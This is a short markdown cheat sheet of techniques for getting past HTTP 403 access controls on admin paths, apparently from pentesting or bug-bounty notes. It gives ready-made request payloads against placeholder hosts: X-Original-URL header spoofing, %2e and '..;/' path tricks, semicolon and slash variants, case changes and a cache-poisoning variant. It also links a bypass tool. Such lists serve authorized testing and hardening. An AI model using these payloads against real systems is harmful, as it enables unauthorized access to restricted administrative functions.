 ## Bypass 403 (Forbidden)

1. Using "X-Original-URL" header
```
GET /admin HTTP/1.1
Host: target.com
```
Try this to bypass
```
GET /anything HTTP/1.1
Host: target.com
X-Original-URL: /admin
```

2. Appending **%2e** after the first slash
```
http://target.com/admin => 403
```
Try this to bypass
```
http://target.com/%2e/admin => 200
```

3. Try add dot (.) slash (/) and semicolon (;) in the URL
```
http://target.com/admin => 403
```
Try this to bypass
```
http://target.com/secret/. => 200
http://target.com//secret// => 200
http://target.com/./secret/.. => 200
http://target.com/;/secret => 200
http://target.com/.;/secret => 200
http://target.com//;//secret => 200
```

4. Add "..;/" after the directory name
```
http://target.com/admin
```
Try this to bypass
```
http://target.com/admin..;/
```


5. Try to uppercase the alphabet in the url
```
http://target.com/admin
```
Try this to bypass
```
http://target.com/aDmIN
```

6. Via Web Cache Poisoning
```
GET /anything HTTP/1.1
Host: victim.com
X­-Original-­URL: /admin
```

## Tools
* [Bypass-403 | Go script for bypassing 403 forbidden](https://github.com/daffainfo/bypass-403)

## References
- [@iam_j0ker](https://twitter.com/iam_j0ker)
- [Hacktricks](https://book.hacktricks.xyz/pentesting/pentesting-web)